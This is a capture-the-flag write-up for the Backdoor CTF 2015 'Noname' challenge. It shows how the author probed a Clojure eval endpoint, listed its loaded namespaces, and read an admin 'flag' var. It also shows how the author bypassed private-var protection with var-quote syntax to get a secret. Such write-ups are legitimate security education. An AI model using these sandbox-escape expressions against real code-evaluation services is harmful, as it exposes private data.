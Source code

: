 ```yaml
---
layout: post
title: "Backdoor CTF 2015 - Noname Writeup"
date: 2015-04-03 00:42:36 +0430
comments: false
categories: ctf, clojure, sandbox
---
```



**Backdoor2015 NONAME Writeup**  
**Point = 200**  
**Category = Exploit**  
**Description : **  

> Intrestingly enough, even though it was not expected, Chintu found a cool website to play with, though he can't get the flag. Can you? Visit [this](https://agile-garden-1672.herokuapp.com/). Submit the SHA-256 hash of the flag obtained. 
> 
> Welcome to Noname! You can see an intrepreter above
Get admin's flag and admin's secret. Remember admin is one of the people
Submit sha-256 of secret and flag joined
Get admin's flag and admin's secret. Remember admin is one of the people
Submit sha-256 of secret and flag joined

We could see  see an intrepreter like this : 

<!-- more -->

![enter image description here](http://up.ashiyane.org/images/7f689wqyxbbwiaxbwl.png)
so first for testing script give "1" as input it will retrun "1" again ..
lets check whats going on in browser run firebug and check : 

![enter image description here](http://up.ashiyane.org/images/2fmqsv03ko2qatsw10tq.png)

Its using JSON with eval.json at this [LINK](https://agile-garden-1672.herokuapp.com/eval.json?expr=1) .
Lets see whats happen if we execute our codes directly : 
[https://agile-garden-1672.herokuapp.com/eval.json?expr=*](https://agile-garden-1672.herokuapp.com/eval.json?expr=*)
And the response : 

>    {"expr":"*","result":"#<core$_STAR_ clojure.core$_STAR_@5ca69ca5>"}
 cool , Its Clojure and * is built-in function in "clojure.core"
 lets google clojure.core and find all functions of this library :
[http://clojure.github.io/clojure/clojure.core-api.html](http://clojure.github.io/clojure/clojure.core-api.html)
this link has all built-in functions of this library . after little searching found (loaded-libs) function .
more googling about clojure i understood that for using function out syntax shoud be like 
(function) . for loaded-libs it should be (loaded-libs) and response : 

>    {"expr":"(loaded-libs)","result":"#{bultitude.core cheshire.core cheshire.factory cheshire.generate cheshire.parse clj-time.core clj-time.format clj-yaml.core clojail.core clojail.jvm clojail.testers clojure.core.cache clojure.core.incubator clojure.core.memoize clojure.data.priority-map clojure.java.io clojure.main clojure.repl clojure.set clojure.stacktrace clojure.string clojure.template clojure.test clojure.tools.macro clojure.tools.reader clojure.tools.reader.default-data-readers clojure.tools.reader.edn clojure.tools.reader.impl.ExceptionInfo clojure.tools.reader.impl.commons clojure.tools.reader.impl.utils clojure.tools.reader.reader-types clojure.walk clout.core compojure.core compojure.handler compojure.response compojure.route flatland.useful.fn flatland.useful.seq flatland.useful.utils hiccup.compiler hiccup.core hiccup.def hiccup.element hiccup.middleware hiccup.page hiccup.util noir.cookies noir.request noir.response noir.session noir.util.crypt noir.util.middleware noir.validation noname.models.eval noname.people.admin noname.server noname.views.eval noname.views.home ring.adapter.jetty ring.middleware.content-type ring.middleware.cookies ring.middleware.file-info ring.middleware.flash ring.middleware.format ring.middleware.format-params ring.middleware.format-response ring.middleware.head ring.middleware.keyword-params ring.middleware.multipart-params ring.middleware.multipart-params.temp-file ring.middleware.nested-params ring.middleware.params ring.middleware.session ring.middleware.session.memory ring.middleware.session.store ring.util.codec ring.util.io ring.util.mime-type ring.util.response ring.util.servlet ring.util.time serializable.fn}"}

Found good things : 

    noname.models.eval noname.people.admin noname.server noname.views.eval noname.views.home


specialy "noname.people.admin" because of hint of question: 

> Remember admin is one of the people

Its loaded , so we can use it in our codes but we dont know functions and classes
little googling found "clojure.repl/dir" it can list classes , functions ... : 
[https://agile-garden-1672.herokuapp.com/eval.json?expr=(clojure.repl/dir noname.people.admin)](https://agile-garden-1672.herokuapp.com/eval.json?expr=%28clojure.repl/dir%20noname.people.admin%29)

and response :

>    {"expr":"(clojure.repl/dir noname.people.admin)","result":"flag\nnil"}

oh . "flag" .... lets check if its public : 
[https://agile-garden-1672.herokuapp.com/eval.json?expr=%28print%20noname.people.admin/flag%29](https://agile-garden-1672.herokuapp.com/eval.json?expr=%28print%20noname.people.admin/flag%29)

 yes , its public , we can use it in interpreter : 
![enter image description here](http://up.ashiyane.org/images/b95z537owt2a0cmrm1ca.png)
 
 got second part of flag : 
 

    Give me some code:
> (noname.people.admin/flag)
> Ma flag is : _b7w_1_l1k3_60l4n6_700nil
>  

We need first part of flag called admin's secret , let test  (noname.people.admin/secret)
and response id error : 

>    {"error":true,"message":"java.lang.IllegalStateException: var: noname.people.admin/secret is not public"}

it private , and because of namespace we cant use it also we cant switch our namespace becuase "ns" is closed by Java.Security...

lets google and find a way for bypass :)
found this http://christophermaier.name/blog/2011/04/30/not-so-private-clojure-functions

awesome :D

do what it said :  
![enter image description here](http://up.ashiyane.org/images/lqo0cppgkh89dci505u1.png)

and its the first part of the flag :

> (#'noname.people.admin/secret)
> "Ma secret is: [redacted]"
> 
> Flag Format = sha256(secret+flag)
> sha256(1_4m_50..[FILTERED]..1k3_60l4n6_700)
> **[redacted]**

200 points ;)

WriteUp By PARSA
